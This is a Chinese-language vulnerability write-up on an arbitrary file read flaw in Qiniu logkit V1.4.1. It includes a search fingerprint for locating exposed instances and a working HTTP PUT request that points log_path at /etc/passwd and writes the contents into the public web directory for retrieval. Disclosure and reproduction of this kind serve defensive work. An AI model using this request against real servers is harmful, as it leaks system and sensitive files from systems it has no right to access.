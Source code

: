 # 七牛云 logkit log_path 任意文件读取漏洞

## 漏洞描述

七牛云 logkit log_path 参数可自定义读取服务器文件，配合读取的文件写入Web目录将会使攻击者读取到服务器任意文件，造成服务器敏感信息泄漏

## 漏洞影响

<a-checkbox checked>七牛云 logkit V1.4.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="七牛Logkit配置文件助手"</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1650509317464-3b428310-57b3-4323-86b8-3bc96270dc91.png)

发送请求包配置读取文件

```php
PUT /logkit/configs/passwdread HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 356
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

{
  "name": "passwdread",
  "batch_interval": 1,
  "collect_interval": 1,
  "reader": {
    "mode": "file",
    "log_path": "/etc/passwd",
    "read_from": "oldest",
    "datasource_tag": "datasource",
    "encoding": "UTF-8"
  },
  "parser": {
    "type": "raw",
    "name": "parser",
    "timestamp": "true"
  },
  "transforms": [],
  "senders": [
    {
      "sender_type": "file",
      "file_send_path": "/app/public/passwd.log"
    }
  ]
}
```

![img](/assets/PeiQi-Wiki/img/1650509841938-35e81793-6098-43ee-815d-311b45da7575.png)

![img](/assets/PeiQi-Wiki/img/1650509983538-d5d3c3ef-8961-420a-b6e7-a7b2d526e585.png)

请求读取的文件 /app/public 目录为Docker默认Web路径，写入可读取目标文件

![img](/assets/PeiQi-Wiki/img/1650509901001-6b9e9d97-8540-40cb-84f8-4b30523e1491.png)
